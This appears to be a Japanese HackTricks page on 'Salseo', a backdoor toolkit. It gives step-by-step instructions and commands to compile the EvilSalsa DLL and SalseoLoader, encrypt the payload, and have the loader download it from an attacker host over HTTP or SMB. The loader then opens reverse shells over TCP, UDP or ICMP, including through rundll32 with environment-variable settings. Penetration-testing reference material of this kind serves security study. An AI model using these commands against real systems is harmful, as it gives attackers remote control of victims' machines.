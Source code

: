 # Salseo

<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)をフォローする
- **ハッキングトリックを共有するには、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

## バイナリのコンパイル

GitHubからソースコードをダウンロードし、**EvilSalsa**と**SalseoLoader**をコンパイルします。コードをコンパイルするには**Visual Studio**が必要です。

これらのプロジェクトを、使用するWindowsボックスのアーキテクチャ用にコンパイルします（Windowsがx64をサポートしている場合は、そのアーキテクチャ用にコンパイルします）。

Visual Studio内で、**左側の"Build"タブ**内の**"Platform Target"**でアーキテクチャを選択できます。

（\*\*このオプションが見つからない場合は、**"Project Tab"**をクリックしてから**"\<Project Name> Properties"**をクリックします）

![](<../.gitbook/assets/image (132).png>)

その後、両方のプロジェクトをビルドします（Build -> Build Solution）（ログ内に実行可能ファイルのパスが表示されます）：

![](<../.gitbook/assets/image (1) (2) (1) (1) (1).png>)

## バックドアの準備

まず、**EvilSalsa.dll**をエンコードする必要があります。これを行うには、Pythonスクリプト**encrypterassembly.py**を使用するか、プロジェクト**EncrypterAssembly**をコンパイルできます：

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows

### ウィンドウズ
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
## **バックドアの実行**

### **TCPリバースシェルの取得（HTTPを介してエンコードされたdllをダウンロードする）**

リバースシェルリスナーとHTTPサーバーを起動して、エンコードされたEvilDalsa.dllを提供することを忘れないでください。
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **UDPリバースシェルを取得する（SMBを介してエンコードされたdllをダウンロードする）**

リバースシェルリスナーとしてncを起動し、エンコードされたevilsalsaを提供するためのSMBサーバー（impacket-smbserver）を起動することを忘れないでください。
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **ICMPリバースシェルを取得する（エンコードされたdllはすでに被害者の中にある）**

**今回は、リバースシェルを受け取るためにクライアントに特別なツールが必要です。ダウンロード:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **ICMP応答を無効にする:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### クライアントを実行します：
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### 被害者の内部で、salseoの実行を許可します：
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## DLLのエクスポートメイン関数としてSalseoLoaderをコンパイルする

Visual Studioを使用してSalseoLoaderプロジェクトを開きます。

### メイン関数の前に追加: \[DllExport]

![](<../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

### このプロジェクトにDllExportをインストール

#### **ツール** --> **NuGetパッケージマネージャ** --> **ソリューションのNuGetパッケージを管理...**

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

#### **DllExportパッケージを検索（ブラウズタブを使用）し、インストールを押して（ポップアップを受け入れて）**

![](<../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png>)

プロジェクトフォルダに**DllExport.bat**と**DllExport\_Configure.bat**というファイルが表示されます

### DllExportをアンインストール

**アンインストール**を押します（はい、奇妙ですが、信じてください、必要です）

![](<../.gitbook/assets/image (5) (1) (1) (2) (1).png>)

### Visual Studioを終了してDllExport\_configureを実行

Visual Studioを**終了**します

その後、**SalseoLoaderフォルダ**に移動して**DllExport\_Configure.bat**を実行します

**x64**を選択します（x64ボックス内で使用する場合、私の場合はそうでした）、**System.Runtime.InteropServices**（**DllExportのNamespace**内）を選択して**Apply**を押します

![](<../.gitbook/assets/image (7) (1) (1) (1) (1).png>)

### プロジェクトを再度Visual Studioで開く

**\[DllExport]**はもはやエラーとしてマークされていません

![](<../.gitbook/assets/image (8) (1).png>)

### ソリューションをビルド

**出力タイプ = クラスライブラリ**を選択します（プロジェクト --> SalseoLoaderのプロパティ --> アプリケーション --> 出力タイプ = クラスライブラリ）

![](<../.gitbook/assets/image (10) (1).png>)

**x64プラットフォーム**を選択します（プロジェクト --> SalseoLoaderのプロパティ --> ビルド --> プラットフォームターゲット = x64）

![](<../.gitbook/assets/image (9) (1) (1).png>)

ソリューションを**ビルド**するには: ビルド --> ソリューションのビルド（出力コンソール内に新しいDLLのパスが表示されます）

### 生成されたDllをテスト

生成されたDllをテストしたい場所にコピーして貼り付けます。

実行:
```
rundll32.exe SalseoLoader.dll,main
```
もしエラーが表示されない場合は、おそらく機能するDLLを持っています！！

## DLLを使用してシェルを取得する

**HTTPサーバー**を使用して**ncリスナー**を設定することを忘れないでください

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD

### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションを見る
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**し、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)で**フォロー**してください**。**
* **ハッキングトリックを共有するには、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください**。

</details>
